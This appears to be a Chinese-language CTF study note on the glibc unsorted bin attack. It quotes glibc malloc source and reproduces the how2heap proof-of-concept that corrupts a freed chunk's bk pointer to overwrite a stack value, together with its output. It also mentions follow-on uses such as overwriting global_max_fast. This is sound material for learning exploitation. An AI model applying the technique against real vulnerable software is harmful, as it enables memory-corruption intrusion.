

# Unsorted Bin Attack

### 0x0 前置补偿

`bins`：如图，正常情况下，每一个`bin[idx]`都有是一个`malloc_chunk`指针，`fd`指向最新插入的`chunk`，`bk`指针指向第一个被插入的`chunk`，每个`chunk`之间用`fk`和`bk`链接，如果`bin[idx]`为空，其`fd`和`bk`指向自己。


### 0x1 介绍

 `_int_malloc` 有这么一段代码，当将一个 unsorted bin 取出的时候，会将 `bck->fd` 的位置写入`bin[idx]`即`unsorted bin`（位于`malloc_state`）的位置。

```C
/* remove from unsorted list */
if (__glibc_unlikely (bck->fd != victim))
  malloc_printerr ("malloc(): corrupted unsorted chunks 3");
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

#### 0x10 利用前提

可以控制 Unsorted Bin Chunk 的 bk 指针。(比如UAF漏洞等方法)

#### 0x11 流程

> 根据[how2heap-unsorted_bin_attack.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c)来描述

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	fprintf(stderr, "This technique only works with buffers not going into tcache, either because the tcache-option for "
		    "glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build "
		    "instructions.\n");
	fprintf(stderr, "This file demonstrates unsorted bin attack by write a large unsigned long value into stack\n");
	fprintf(stderr, "In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the "
		   "global variable global_max_fast in libc for further fastbin attack\n\n");

	unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);

	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
	fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
		   "point to %p\n",(void*)p[1]);

	//------------VULNERABILITY-----------

	p[1]=(unsigned long)(&stack_var-2);
	fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");
	fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%p\n\n",(void*)p[1]);

	//------------------------------------

	malloc(0x410);
	fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
		   "rewritten:\n");
	fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
}
```


结果：

```c
This technique only works with buffers not going into tcache, either because the tcache-option for glibc was disabled, or because the buffers are bigger than 0x408 bytes. See build_glibc.sh for build instructions.
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

//Let's first look at the target we want to rewrite on stack:
//0x7fffffffe4c8: 0

//Now, we allocate first normal chunk on the heap at: 0x555555757010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7ffff7dd1b78
Now emulating a vulnerability that can overwrite the victim->bk pointer
//And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7fffffffe4b8

//Let's malloc again to get the chunk we just free. During this time, the target should have already been rewritten:
//0x7fffffffe4c8: 0x7ffff7dd1b78
```


来自[CTF-wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack-zh/#_4)的图：



1. 首先：`unsorted bin` 的 `fd` 和 `bk` 均指向 `unsorted bin` 本身。

2. 随后`free(p)`，`chunk`被放入`Unsorted bin`。

3. 修改`p[1]`为即`chunk->bk`指针为`&stack_var - 0x10`。

4. 最后再次把这个`chunk`申请走。

   ```c
   while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
       bck = victim->bk;
       if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
           __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
           malloc_printerr(check_action, "malloc(): memory corruption",
                           chunk2mem(victim), av);
       size = chunksize(victim);
   
       /*
          If a small request, try to use last remainder if it is the
          only chunk in unsorted bin.  This helps promote locality for
          runs of consecutive small requests. This is the only
          exception to best-fit, and applies only when there is
          no exact fit for a small chunk.
        */
       /* bck被修改为&stack_var - 0x10，并不符合这里的要求*/
       if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
           victim == av->last_remainder &&
           (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
           ....
       }
   
       /* remove from unsorted list */
       unsorted_chunks(av)->bk = bck;
       bck->fd= unsorted_chunks(av);			//这里 stack_var被修改为一个很大的数
   ```

   

### 0x2 作用

我还没有经验，摘自CTF-wiki

- 我们通过修改循环的次数来使得程序可以执行多次循环。
- 我们可以修改 heap 中的 global_max_fast 来使得更大的 chunk 可以被视为 fast bin，这样我们就可以去执行一些 fast bin attack 了。